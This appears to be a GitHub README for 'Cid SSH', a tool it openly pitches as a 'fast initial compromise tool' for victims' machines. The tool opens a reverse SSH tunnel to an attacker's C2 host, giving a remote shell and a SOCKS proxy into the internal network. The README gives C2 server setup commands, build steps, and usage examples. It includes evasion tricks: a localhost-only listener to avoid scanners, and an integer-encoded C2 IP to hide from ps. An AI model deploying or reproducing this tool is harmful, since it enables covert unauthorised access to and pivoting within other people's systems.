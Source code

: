 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
   ClientAliveInterval 120
   ClientAliveCountMax 3
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

## Compilation

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To easy things installing dependencies you can use `vcpkg`:
```
# Install dependencies with vcpkg (static)
git clone https://github.com/Microsoft/vcpkg.git
cd vcpkg
bootstrap-vcpkg.bat
vcpkg install --triplet x86-windows-static openssl boost-beast boost-asio boost-system

git submodule update --init --recursive
# Configure and compile project
cd Cid-SSH
mkdir build_x86
cd build_x86
cmake -G "Visual Studio 16 2019" -A Win32 -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x86-windows-static ..
cmake --build . --config Release
```


### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 

There is a `build.sh` command that can be used to build everything. Just do `sh build.sh` from an Alpine system or docker container.

### Compilation on MacOs
There is a `build.sh` command that can be used to build everything. Just do `sh build.sh`

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
